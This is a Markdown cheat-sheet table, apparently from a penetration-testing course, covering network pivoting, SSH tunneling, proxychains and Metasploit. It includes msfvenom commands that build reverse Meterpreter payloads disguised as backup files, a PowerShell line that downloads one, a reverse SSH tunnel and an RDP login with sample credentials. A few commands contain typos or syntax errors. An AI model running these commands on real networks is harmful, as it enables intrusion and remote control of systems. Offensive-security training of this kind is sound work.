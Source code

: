 <a id="12-pivoting-tunneling-and-port-forwarding"></a>
### 12. Pivoting, Tunneling, and Port Forwarding

|**Command**|**Description**|
|-|-|
| `ifconfig`                                                     | Linux-based command that displays all current network configurations of a system. |
| `ipconfig`                                                     | Windows-based command that displays all system network configurations. |
| `netstat -r`                                                   | Command used to display the routing table for all IPv4-based protocols. |
| `nmap -sT -p22,3306 <IPaddressofTarget>`                       | Nmap command used to scan a target for open ports allowing SSH or MySQL connections. |
| `ssh -L 1234:localhost:3306 Ubuntu@<IPaddressofTarget>`        | SSH comand used to create an SSH tunnel from a local machine on local port `1234` to a remote target using port 3306. |
| `netstat -antp \| grep 1234`                                   | Netstat option used to display network connections associated with a tunnel created. Using `grep` to filter based on local port `1234` . |
| `nmap -v -sV -p1234 localhost`                                 | Nmap command used to scan a host through a connection that has been made on local port `1234`. |
| `ssh -L 1234:localhost:3306 8080:localhost:80 ubuntu@<IPaddressofTarget>` | SSH command that instructs the ssh client to request the SSH server forward all data via port `1234` to `localhost:3306`. |
| `ssh -D 9050 ubuntu@<IPaddressofTarget>`                       | SSH command used to perform a dynamic port forward on port `9050` and establishes an SSH tunnel with the target. This is part of setting up a SOCKS proxy. |
| `tail -4 /etc/proxychains.conf`                                | Linux-based command used to display the last 4 lines of /etc/proxychains.conf. Can be used to ensure socks configurations are in place. |
| `proxychains nmap -v -sn 172.16.5.1-200`                       | Used to send traffic generated by an Nmap scan through Proxychains and a SOCKS proxy. Scan is performed against the hosts in the specified range `172.16.5.1-200` with increased verbosity (`-v`) disabling ping scan (`-sn`). |
| `proxychains nmap -v -Pn -sT 172.16.5.19`                      | Used to send traffic generated by an Nmap scan through Proxychains and a SOCKS proxy. Scan is performed against 172.16.5.19 with increased verbosity (`-v`), disabling ping discover (`-Pn`), and using TCP connect scan type (`-sT`). |
| `proxychains msfconsole`                                       | Uses Proxychains to open Metasploit and send all generated network traffic through a SOCKS proxy. |
| `msf6 > search rdp_scanner`                                    | Metasploit search that attempts to find a module called `rdp_scanner`. |
| `proxychains xfreerdp /v:<IPaddressofTarget> /u:victor /p:pass@123` | Used to connect to a target using RDP and a set of credentials using proxychains. This will send all traffic through a SOCKS proxy. |
| `msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InteralIPofPivotHost> -f exe -o backupscript.exe LPORT=8080` | Uses msfvenom to generate a Windows-based reverse HTTPS Meterpreter payload that will send a call back to the IP address specified following `lhost=` on local port 8080 (`LPORT=8080`). Payload will take the form of an executable file called `backupscript.exe`. |
| `msf6 > use exploit/multi/handler`                             | Used to select the multi-handler exploit module in Metasploit. |
| `scp backupscript.exe ubuntu@<ipAddressofTarget>:~/`           | Uses secure copy protocol (`scp`) to transfer the file `backupscript.exe` to the specified host and places it in the Ubuntu user's home directory (`:~/`). |
| `python3 -m http.server 8123`                                  | Uses Python3 to start a simple HTTP server listening on port` 8123`. Can be used to retrieve files from a host. |
| `Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"` | PowerShell command used to download a file called backupscript.exe from a webserver (`172.16.5.129:8123`) and then save the file to location specified after `-OutFile`. |
| `ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:80 ubuntu@<ipAddressofTarget> -vN` | SSH command used to create a reverse SSH tunnel from a target to an attack host. Traffic is forwarded on port `8080` on the attack host to port `80` on the target. |
| `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IPaddressofAttackHost -f elf -o backupjob LPORT=8080` | Uses msfveom to generate a Linux-based Meterpreter reverse TCP payload that calls back to the IP specified after `LHOST=` on port 8080 (`LPORT=8080`). Payload takes the form of an executable elf file called backupjob. |
| `msf6> run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23`  | Metasploit command that runs a ping sweep module against the specified network segment (`RHOSTS=172.16.5.0/23`). |
|                                                              |                                                              |
| `for i in {1...254} ;do (ping -c 1 172.16.5.$i \| grep "bytes from" &) ;done` | For Loop used on a Linux-based system to discover devices in a specified network segment. |
| `for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 \| find "Reply"` | For Loop used on a Windows-based system to discover devices in a specified network segment. |
| `1..254 \| % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}` | PowerShell one-liner used to ping addresses 1 - 254 in the specified network segment. |
| `msf6 > use auxiliary/server/socks_proxy`                      | Metasploit command that selects the `socks_proxy` auxiliary module. |
| `msf6 auxiliary(server/socks_proxy) > jobs`                    | Metasploit command that lists all currently running jobs.    |
